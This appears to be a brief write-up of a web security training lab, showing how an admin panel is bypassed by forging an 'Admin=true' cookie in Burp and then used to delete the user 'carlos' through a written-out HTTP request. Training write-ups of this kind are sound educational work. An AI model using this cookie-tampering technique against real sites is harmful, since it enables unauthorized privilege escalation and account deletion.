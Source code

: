 ```bash
GET /admin
```

![](.gitbook/assets/2024-01-28_10-02-54_399.png)

- Send this request to the repeater and forge the cookie with `Admin=true`

![](.gitbook/assets/2024-01-28_10-03-55_400.png)

- Delete user `carlos` once the admin panel login is bypassed.
- Burp Proxy interception (or browser Dev Tools) can be used too, while logging in, to set the Cookie to `Admin=true`, and to access the Admin panel from `/my-account` .

```bash
# Request
GET /admin/delete?username=carlos HTTP/2
Host: 0a060030038bec7c8214d8b600eb00c1.web-security-academy.net
Cookie: Admin=true; session=dxgdmGbBWv76i4PMyyDoYYW666smj1er
...
```

![](.gitbook/assets/2024-01-28_10-06-28_401.png)
